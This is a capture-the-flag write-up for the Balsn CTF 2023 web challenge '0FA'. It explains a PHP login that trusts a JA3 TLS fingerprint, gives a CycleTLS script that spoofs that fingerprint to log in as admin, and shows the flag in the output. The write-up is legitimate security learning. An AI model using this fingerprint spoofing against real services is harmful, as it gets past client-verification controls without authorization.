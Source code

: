 ```yaml
---
title: 0FA
type: writeup
date: 2023-10-09
tags:
  - web
author: cartouche70
---
```


# 0FA

Description: I really don't like 2FA, so I created a 0FA login system!

Challenge Author: kaibro

- we have a php application
- we can see that in index.php it s just a submit query input that can be vulnerable

```html
<form method="post" action="flag.php">
            <div class="field">
                <input type="text" class="input" name="username" placeholder="Username...">
            </div>
            <input type="submit" class="button is-primary"><br>
        </form>
```

it goes to the flag.php

```php
<?php
include_once("config.php");
fingerprint_check();
if(!isset($_POST['username']) || $_POST['username'] !== "admin")
    die("Login failed!");
?>
```

so, if the username is not admin, then login fails, but he also makes some fingerprint checks(). Maybe it’s exploitable, but let s try to put admin there first and see the request

we sent a request to the server and we can see that we still have an error, but the username is indeed admin, we can look somewhere else. 

in the config.php, there is a defined JA3 fingerprint and it checks if that fingerprint is the same as the one received by the server.

```php
<?php
define("FINGERPRINT", "771,4866-4865-4867-49195-49199-49196-49200-52393-52392-49171-49172-156-157-47-53,23-65281-10-11-35-16-5-13-18-51-45-43-27-17513,29-23-24,0");
$flag = 'BALSN{fake_flag}';

function fingerprint_check() {
    if($_SERVER['HTTP_SSL_JA3'] !== FINGERPRINT) 
        die("Login Failed!"); 
}
```

After some research, we can see that the ja3 fingerprint can be impersonated.

For that, I used CycleTLS, an npm module good for ja3 impersonation.

```tsx
const qs = require('qs');

const initCycleTLS = require('cycletls');
// Typescript: import initCycleTLS from 'cycletls';

(async () => {
  // Initiate CycleTLS
  const cycleTLS = await initCycleTLS();
  const bodyDict = {username:"admin"};
  // Send request
  const response = await cycleTLS('https://0fa.balsnctf.com:8787/flag.php', {
    body: qs.stringify(bodyDict),
    headers: {"Content-Type": "application/x-www-form-urlencoded"},
    method: "POST",
    ja3: '771,4866-4865-4867-49195-49199-49196-49200-52393-52392-49171-49172-156-157-47-53,23-65281-10-11-35-16-5-13-18-51-45-43-27-17513,29-23-24,0',
    userAgent: 'Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:87.0) Gecko/20100101 Firefox/87.0'
  }, 'post');

  console.log(response);

  // Cleanly exit CycleTLS
  cycleTLS.exit();

})();
```

after running this script, we have this output in console:

```tsx
{
  status: 200,
  body: '<html>\n' +
    '<head>\n' +
    '    <title>Balsn CTF 2023 - 0FA</title>\n' +
    '    <meta charset="UTF-8">\n' +
    '    <link rel="stylesheet" href="https://cdn.jsdelivr.net/npm/bulma@0.9.4/css/bulma.min.css">\n' +
    '</head>\n' +
    '<body>\n' +
    '  Here is your flag: BALSN{Ez3z_Ja3__W4rmUp}</body>\n' +
    '</html>',
  headers: {
    Connection: 'keep-alive',
    'Content-Type': 'text/html; charset=UTF-8',
    Date: 'Mon, 09 Oct 2023 07:54:15 GMT',
    Server: 'nginx/1.23.1'
  }
}
```
